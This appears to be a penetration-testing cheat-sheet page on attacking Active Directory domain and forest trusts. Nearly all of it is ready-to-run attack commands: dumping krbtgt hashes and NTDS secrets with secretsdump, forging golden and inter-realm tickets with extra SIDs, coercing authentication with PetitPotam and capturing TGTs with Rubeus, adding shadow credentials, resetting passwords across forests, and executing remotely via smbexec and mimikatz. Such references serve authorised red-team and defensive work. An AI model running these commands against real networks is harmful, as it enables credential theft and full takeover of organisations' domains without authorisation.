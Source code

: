 # Trusts

## Enumeration

```bash
# ldeep supports cleartext, pass-the-hash, pass-the-ticket, etc.
ldeep ldap -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -s ldap://"$DC_IP" trusts
# Bloodhound (button map domain trusts)
MATCH p=(n:Domain)-->(m:Domain) RETURN p
```

## Child to parent

{% code overflow="wrap" fullWidth="true" %}
```bash
#Impacket's raiseChild.py script can also be used to conduct the golden ticket technique automatically when SID filtering is disabled (retrieving the SIDs, dumping the trusted domain's krbtgt, forging the ticket, dumping the forest root keys, etc.). It will forge a ticket with the Enterprise Admins extra SID. 
raiseChild.py "child_domain"/"child_domain_admin":"$PASSWORD"

# That was the easiest option with one command, now another one Golden ticket + ExtraSid
https://adsecurity.org/?p=1640
# First dump the krbtgt of the domain we own (dump child ntds and get krbtgt NT hash)
secretsdump.py -just-dc-user domain/krbtgt child.domain.local/user:pass@$CHILD_DC_IP
# Dump child domain SID (Bloodhound also shows this info for child and parent)
lookupsid.py  -domain-sids child.domain.local/user:pass@$CHILD_DC_IP 0
# dump parent domain SID 
lookupsid.py  -domain-sids child.domain.local/user:pass@$PARENT_DC_IP 0
# now create the golden ticket : we add “-519” at the end of the extra-sid (means enterprise admin)
ticketer.py -nthash $krbtgt_NThash \
 -domain-sid $CHILD_DOMAIN_SID \
 -domain child.domain.local \
 -extra-sid $PARENT_DOMAIN_SID-519 \
 goldenuser
# And we use the ticket to dump the parent domain NTDS
export KRB5CCNAME=goldenuser.ccache 
secretsdump.py -k -no-pass -just-dc-ntlm child.domain.local.local/goldenuser@parent.domain.local

# Trust ticket - forge inter-realm TGT
https://adsecurity.org/?p=1588
# Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket
# The trust key can be found by targeting the netbios name of the domain on the ntds
secretsdump -just-dc-user 'DOMAIN_NETBIOS_NAME$' child.domain.local/user:pass@$CHILD_DC_IP
# Forge the ticket but this time we will set the spn : krbtgt/parent_domain
ticketer.py -nthash $krbtgt_NThash \
 -domain-sid $CHILD_DOMAIN_SID \
 -domain child.domain.local \
 -extra-sid $PARENT_DOMAIN_SID-519 \
 -spn krbtgt/domain.local trustfakeuser
# use the forged TGT to ask a ST on the parent domain
export KRB5CCNAME=trustfakeuser.ccache   
getST.py -k -no-pass -spn cifs/parent.domain.local domain.local/trustfakeuser@domain.local -debug
# now we can use our service ticket to connect via SMB or dump secrets
export KRB5CCNAME=trustfakeuser@domain.local@cifs....ccache
smbclient.py -k -no-pass trustfakeuser@parent.domain.local

# Unconstrained delegation
```
{% endcode %}

## Forest Trust (Forest to Forest)

## Password reuse

On a real environment this is really accurate. Dump the ntds of the domain you own and try to find the same users on the external forest domains.

## Foreign group and users

{% code overflow="wrap" fullWidth="true" %}
```bash
# See the link between the domains (CAREFUL, THIS QUERY IS A LITTLE BIT TOO HEAVY FOR REAL-WORLD AD)
MATCH p = (a:Domain)-[:Contains*1..]->(x)-->(w)-->(z)<--(y)<-[:Contains*1..]-(b:Domain) where (x:Container or x:OU) and (y:Container or y:OU) and (a.name <>b.name) and (tolower(w.samaccountname) <> "enterprise admins" and tolower(w.samaccountname) <> "enterprise key admins" and tolower(z.samaccountname) <> "enterprise admins" and tolower(z.samaccountname) <> "enterprise key admins")  RETURN p
# Note that bloodhound also have buttons to research foreign groups and users directly in the interface.

# If a group of a forest has MemberOf another group from another forest that has GenericAll over a user, that means any member of the first group can change password of that user
net rpc password $FOREST2_TARGET_USER -U forest1.local/user1%pass1 -S forest2.domain.local
Enter new password  ...: <here we enter P@ssword123>
# And verify
cme smb $FOREST2_DC_IP -u $USER2 -p 'P@ssword123' -d domain2.local
# We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)
certipy shadow add -u forest1user@domain1.local -p 'PASS' -dc-ip $DC_FOREST2_IP -target forest2.domain.local -account 'FOREST2_USER'
certipy auth -pfx forest2user.pfx -username forest2user -domain forest2.local -dc-ip $DC_FOREST2_IP
```
{% endcode %}

## Unconstrained Delegation

{% code overflow="wrap" fullWidth="true" %}
```bash
# Connect to forest1 as administrator and launch Rubeus to wait for a TGT of the other forest (following steps work due to Defender disabled, if not some bypass would be needed)
.\Rubeus.exe monitor /filteruser:COMPUTER2$ /interval:1
# run petitpotam to force a coerce of COMPUTER2 to forest1
petitpotam.py -u user1 -p pass1 -d dc.domain1.local forest1.domain.local forest2.domain.local
# Decode thet ticket and save it to a kirbi file
base64 -d rubeus.b64 > ticket.kirbi
# Convert it to ccache and use it to dcsync forest2
ticketConverter.py ticket.kirbi ticket.ccache 
export KRB5CCNAME=ticket.ccache
secretsdump -k -no-pass -just-dc-ntlm domain2.local/'COMPUTER2$'@forest2.domain.local
```
{% endcode %}

## Mssql Trusted link

The MSSQL trust link is across forest, so it can be used to make forest to forest exploitation.

## Golden ticket with external forest, sid history ftw (forest1 -> forest2)

{% code overflow="wrap" fullWidth="true" %}
```bash
# This attack can be done only because SID history is enabled on the forest2->forest1 trust
# Find both domain sid with lookupsid.py
# extract the krbtgt hash of forest1
secretsdump -just-dc-user 'domain1/krbtgt' domain1.local/user1:pass1@$IP1
# We need a group to target on the extra-sid with an RID > 1000 due to SID filter  (on a real audit exchange groups are usualy a good target)
#     Create the golden ticket for a fake user
ticketer.py -nthash $krbtgt_NThash_forest1 \
 -domain-sid $FOREST1_DOMAIN_SID \
 -domain forest1.domain.local \
 -extra-sid $FOREST2_DOMAIN_SID-$WITH_NUMBER>1000 \
fakeuser
# And use it (secretsdump will work too)
export KRB5CCNAME=goldenticket.ccache
smbexec.py -k -no-pass fakeuser@forest2.domain.local -debug
```
{% endcode %}

## Trust ticket with external forest ( forest1 -> forest2)

{% code overflow="wrap" fullWidth="true" %}
```bash
# just like with the golden ticket we need the sid history enabled to exploit
# Find the domain sid of both forests with lookupsid.py
secretsdump -just-dc-user 'COMPUTER2$' domain1.local/user1:pass@$FOREST2_IP
#     Create the inter-realm tgt ticket
ticketer.py -nthash $krbtgt_NThash_forest1 \
 -domain-sid $FOREST1_DOMAIN_SID \
 -domain forest1.domain.local \
 -extra-sid $FOREST2_DOMAIN_SID-$WITH_NUMBER>1000 \
 -spn krbtgt/domain2.local trustticket
# Ask a service ticket for kingslanding cifs
export KRB5CCNAME=trustticket.ccache
getST.py -k -no-pass -spn cifs/forest2.domain2.local domain2.local/trustticket@domain2.local -debug
#     And enjoy (secretsdump will work too)
export KRB5CCNAME=trustticket....ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```
{% endcode %}

## Exploit acl with external trust golden ticket

{% code overflow="wrap" fullWidth="true" %}
```bash
# Exploit ACL of forest2 from forest1 (GenericAll of a group over a user) -> create the golden ticket with mimikatz matching the group with RID > 1000
mimikatz # kerberos::golden /user:guard /domain:domain1.local /sid:$FOREST1_SID /krbtgt:$KRBTGT_HASH_FOREST_1 /sids:FOREST_2_GROUP_SID>1000 /ptt
mimikatz # klist
# powerview to change that user's password
Import-Module .\powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity $USER -AccountPassword $SecPassword -Domain domain2.local
```
{% endcode %}

## Resources

https://harmj0y.medium.com/a-guide-to-attacking-domain-trusts-ef5f8992bb9d

https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1

https://adsecurity.org/?p=1640

https://adsecurity.org/?p=1588

https://github.com/fortra/impacket/blob/master/examples/raiseChild.py

https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/

https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/
